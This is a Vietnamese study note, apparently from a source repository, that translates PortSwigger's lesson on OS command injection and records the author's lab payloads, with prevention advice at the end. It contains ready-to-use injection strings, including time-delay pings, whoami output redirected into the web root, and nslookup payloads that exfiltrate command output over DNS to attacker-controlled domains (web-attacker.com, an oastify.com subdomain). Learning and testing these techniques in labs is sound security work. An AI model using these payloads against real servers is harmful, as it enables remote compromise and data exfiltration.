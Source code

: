 # OS command injection
Trong phần này, chúng tôi giải thích OS command injection là gì và mô tả cách phát hiện và khai thác các lỗ hổng bảo mật. Chúng tôi cũng chỉ cho bạn một số lệnh và kỹ thuật hữu ích cho các hệ điều hành khác nhau, đồng thời mô tả cách ngăn chặn việc chèn lệnh vào hệ điều hành.\
![alt text](image.png)

## What is OS command injection?
OS command injection còn được gọi là tiêm shell. Nó cho phép kẻ tấn công thực thi các lệnh của hệ điều hành (OS) trên máy chủ đang chạy ứng dụng và thường xâm phạm hoàn toàn ứng dụng và dữ liệu của nó. Thông thường, kẻ tấn công có thể lợi dụng lỗ hổng OS command injection để xâm phạm các phần khác của cơ sở hạ tầng lưu trữ và khai thác các mối quan hệ tin cậy để chuyển cuộc tấn công sang các hệ thống khác trong tổ chức.
## Injecting OS commands
Trong ví dụ này, một ứng dụng mua sắm cho phép người dùng xem liệu một mặt hàng có còn hàng ở một cửa hàng cụ thể hay không. Thông tin này được truy cập thông qua một URL:\
`https://insecure-website.com/stockStatus?productID=381&storeID=29`\
Để cung cấp thông tin kho hàng, ứng dụng phải truy vấn các hệ thống cũ khác nhau. Vì lý do lịch sử, chức năng này được triển khai bằng cách gọi lệnh shell với ID sản phẩm và ID cửa hàng làm đối số:\
`stockreport.pl 381 29`\
Lệnh này xuất ra trạng thái tồn kho của mặt hàng được chỉ định và được trả về cho người dùng.\
Ứng dụng không thực hiện biện pháp phòng vệ nào trước việc tiêm lệnh của hệ điều hành, vì vậy kẻ tấn công có thể gửi thông tin đầu vào sau để thực thi lệnh tùy ý:\
`& echo aiwefwlguh &`\
Nếu đầu vào này được gửi trong tham số `productID`, lệnh được ứng dụng thực thi là:\
`stockreport.pl & echo aiwefwlguh & 29`\
Lệnh `echo` làm cho chuỗi được cung cấp bị lặp lại ở đầu ra. Đây là một cách hữu ích để kiểm tra một số kiểu chèn lệnh của hệ điều hành. Ký tự `&` là dấu phân cách lệnh shell. Trong ví dụ này, nó khiến ba lệnh riêng biệt được thực thi lần lượt. Kết quả trả về cho người dùng là:\
```
Error - productID was not provided
aiwefwlguh
29: command not found
```
Ba dòng đầu ra chứng minh rằng:
- Lệnh `stockreport.pl` ban đầu được thực thi mà không có đối số dự kiến ​​và do đó trả về thông báo lỗi.
- Lệnh `echo` được chèn đã được thực thi và chuỗi được cung cấp được lặp lại ở đầu ra.
- Đối số ban đầu `29` được thực thi dưới dạng lệnh và gây ra lỗi.

Việc đặt dấu phân cách lệnh bổ sung `&` sau lệnh được chèn rất hữu ích vì nó tách lệnh được chèn khỏi bất kỳ lệnh nào theo sau điểm chèn. Điều này làm giảm khả năng những gì xảy ra sau đó sẽ ngăn lệnh được chèn thực thi.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-simple

![alt text](image-1.png)
## Useful commands
Sau khi bạn xác định lỗ hổng OS command injection, việc thực thi một số lệnh ban đầu để lấy thông tin về hệ thống là rất hữu ích. Dưới đây là tóm tắt một số lệnh hữu ích trên nền tảng Linux và Windows:
```
Purpose of command	    Linux           Windows
Name of current user	whoami	        whoami
Operating system	    uname -a	    ver
Network configuration	ifconfig	    ipconfig /all
Network connections	    netstat -an	    netstat -an
Running processes	    ps -ef	        tasklist
```
## Blind OS command injection vulnerabilities
Nhiều trường hợp OS command injection là những lỗ hổng blind. Điều này có nghĩa là ứng dụng không trả về kết quả đầu ra từ lệnh trong phản hồi HTTP của nó. Các lỗ hổng ẩn vẫn có thể bị khai thác nhưng cần có các kỹ thuật khác.\
Ví dụ: hãy tưởng tượng một trang web cho phép người dùng gửi phản hồi về trang web. Người dùng nhập địa chỉ email và tin nhắn phản hồi của họ. Sau đó, ứng dụng phía máy chủ sẽ tạo một email gửi đến quản trị viên trang web chứa phản hồi. Để thực hiện việc này, nó gọi tới chương trình `mail` với các chi tiết đã gửi:\
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`\
Đầu ra từ lệnh `mail` (nếu có) không được trả về trong phản hồi của ứng dụng, do đó việc sử dụng tải trọng `echo` sẽ không hoạt động. Trong tình huống này, bạn có thể sử dụng nhiều kỹ thuật khác để phát hiện và khai thác lỗ hổng.
### Detecting blind OS command injection using time delays
Bạn có thể sử dụng lệnh được chèn để kích hoạt độ trễ thời gian, cho phép bạn xác nhận rằng lệnh đã được thực thi dựa trên thời gian mà ứng dụng cần để phản hồi. Lệnh `ping` là một cách hay để thực hiện việc này vì cho phép bạn chỉ định số lượng gói ICMP cần gửi. Điều này cho phép bạn kiểm soát thời gian thực hiện lệnh:\
`& ping -c 10 127.0.0.1 &`\
Lệnh này khiến ứng dụng ping bộ điều hợp mạng loopback trong 10 giây.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

Payload: `a || ping -c 10 127.0.0.1 ||`\
![alt text](image-2.png)

### Exploiting blind OS command injection by redirecting output
Bạn có thể chuyển hướng đầu ra từ lệnh được chèn vào một tệp trong web root mà sau đó bạn có thể truy xuất bằng trình duyệt. Ví dụ: nếu ứng dụng phục vụ tài nguyên tĩnh từ vị trí hệ thống tệp `/var/www/static`, thì bạn có thể gửi thông tin đầu vào sau:\
`& whoami > /var/www/static/whoami.txt &`\
Ký tự `>` gửi đầu ra từ lệnh `whoami` tới tệp được chỉ định. Sau đó, bạn có thể sử dụng trình duyệt để tìm nạp `https://vulnerable-website.com/whoami.txt` nhằm truy xuất tệp và xem kết quả đầu ra từ lệnh được chèn.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

![alt text](image-3.png)

Payload: `x+||+whoami+>+/var/www/images/whoami.txt+||+`

### Exploiting blind OS command injection using out-of-band (OAST) techniques
Bạn có thể sử dụng lệnh được chèn để kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn điều khiển bằng kỹ thuật OAST. Ví dụ:\
`& nslookup kgji2ohoyw.web-attacker.com &`\
Tải trọng này sử dụng lệnh `nslookup` để thực hiện tra cứu DNS cho miền được chỉ định. Kẻ tấn công có thể theo dõi xem việc tra cứu có diễn ra hay không, để xác nhận xem lệnh có được tiêm thành công hay không.

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band

Payload: `|| nslookup xmnbr1ob1ko4tazt34xutbktgkmba1yq.oastify.com ||`
![alt text](image-4.png)
![alt text](image-5.png)


Kênh ngoài băng cung cấp một cách dễ dàng để lọc đầu ra từ các lệnh được chèn:\
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``\
Điều này gây ra việc tra cứu DNS tới miền của kẻ tấn công có chứa kết quả của lệnh `whoami`:\
`wwwuser.kgji2ohoyw.web-attacker.com`\

Ví dụ: https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration

Payload: ``|| nslookup `whoami`.xmnbr1ob1ko4tazt34xutbktgkmba1yq.oastify.com ||``

![alt text](image-6.png)
![alt text](image-7.png)

## Ways of injecting OS commands
Bạn có thể sử dụng một số siêu ký tự shell để thực hiện các cuộc tấn công tiêm lệnh vào hệ điều hành.\
Một số ký tự có chức năng phân tách lệnh, cho phép các lệnh được xâu chuỗi lại với nhau. Các trình phân tách lệnh sau hoạt động trên cả hệ thống dựa trên Windows và Unix:
```
&
&&
|
||
```
Các dấu tách lệnh sau chỉ hoạt động trên các hệ thống dựa trên Unix:
```
;
Newline (0x0a or \n)
```
Trên các hệ thống dựa trên Unix, bạn cũng có thể sử dụng backticks hoặc ký tự đô la để thực hiện thực thi nội tuyến lệnh được chèn trong lệnh gốc:
```
`injected command `
$(injected command )
```
Các siêu ký tự shell khác nhau có các hành vi khác nhau một cách tinh tế và có thể thay đổi nếu chúng hoạt động trong một số tình huống nhất định. Điều này có thể ảnh hưởng đến việc chúng có cho phép truy xuất đầu ra lệnh trong băng tần hay chỉ hữu ích cho việc khai thác mù.\
Đôi khi, dữ liệu đầu vào mà bạn điều khiển xuất hiện trong dấu ngoặc kép trong lệnh gốc. Trong trường hợp này, bạn cần chấm dứt ngữ cảnh được trích dẫn (sử dụng `"` hoặc `'`) trước khi sử dụng siêu ký tự shell phù hợp để đưa vào lệnh mới.

## How to prevent OS command injection attacks
Cách hiệu quả nhất để ngăn chặn các lỗ hổng chèn lệnh của hệ điều hành là `không bao giờ gọi các lệnh của hệ điều hành từ code lớp ứng dụng`. Trong hầu hết các trường hợp, có nhiều cách khác nhau để triển khai chức năng được yêu cầu bằng cách sử dụng API nền tảng an toàn hơn.\
Nếu bạn phải gọi các lệnh của hệ điều hành bằng đầu vào do người dùng cung cấp thì bạn phải thực hiện xác thực đầu vào mạnh mẽ. Một số ví dụ về xác nhận hiệu quả bao gồm:
- Xác thực dựa trên **danh sách trắng** các giá trị được phép.
- Xác thực rằng đầu vào là một số.
- Xác thực rằng đầu vào chỉ chứa các ký tự chữ và số, không có cú pháp hoặc khoảng trắng nào khác.

Đừng bao giờ cố gắng vệ sinh đầu vào bằng cách thoát khỏi ký tự shell. Trong thực tế, điều này rất dễ xảy ra lỗi và dễ bị kẻ tấn công lành nghề vượt qua.




















